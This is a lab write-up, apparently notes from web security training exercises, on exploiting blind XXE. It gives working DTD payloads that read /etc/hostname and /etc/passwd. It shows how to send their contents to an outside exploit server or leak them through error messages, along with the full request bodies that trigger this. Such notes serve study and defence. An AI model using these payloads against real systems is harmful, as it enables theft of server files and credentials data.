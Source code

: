 ### LAB: Exploiting blind XXE to exfiltrate data using a malicious external DTD
At the exploit server, declare these paramater entities:

    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0a88009e046a416381ab2e72011800da.exploit-server.net/exploit/%file;'>">

- `%file;`: loads the contents of `/etc/hostname`
- `%eval;`: create another parameter entity (`%exfiltrate;`) by injecting `&#x25;`, which is a hexadecimal representation of `%` (used to escape it in XML).
- `%exfiltrate;`: cause the server to make a request to the exploit server with the contents of /etc/hostname.

Now make the victim visit the exploit server and use the entities we declared to make the attack happen by using this as the body of the `POST /product/stock HTTP/2` request:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo 
        [<!ENTITY % xxe SYSTEM "https://exploit-0a88009e046a416381ab2e72011800da.exploit-server.net/exploit"> 
            %xxe;
            %eval;
            %exfiltrate;
        ]>
    <stockCheck>
        <productId>1</productId>
        <storeId>1</storeId>
    </stockCheck>

### LAB: Exploiting blind XXE to retrieve data via error messages
At the exploit server, declare these paramater entities:

    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexist/%file;'>">

- `%file;`: loads the contents of `/etc/passwd`
- `%eval;`: create another parameter entity (`%error;`) by injecting `&#x25;`, which is a hexadecimal representation of `%` (used to escape it in XML).
- `%error;`: cause the server to make a request to a nonexistent file which cause the logging of error message.

Now make the victim visit the exploit server and use the entities we declared to make the server log error message by using this as the body of the `POST /product/stock HTTP/2` request:

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo 
        [<!ENTITY % xxe SYSTEM "https://exploit-0a3900dd03df199a82f8d4ec01e00003.exploit-server.net/exploit"> 
            %xxe;
            %eval;
            %error;
        ]>
    <stockCheck>
        <productId>1</productId>
        <storeId>1</storeId>
    </stockCheck>
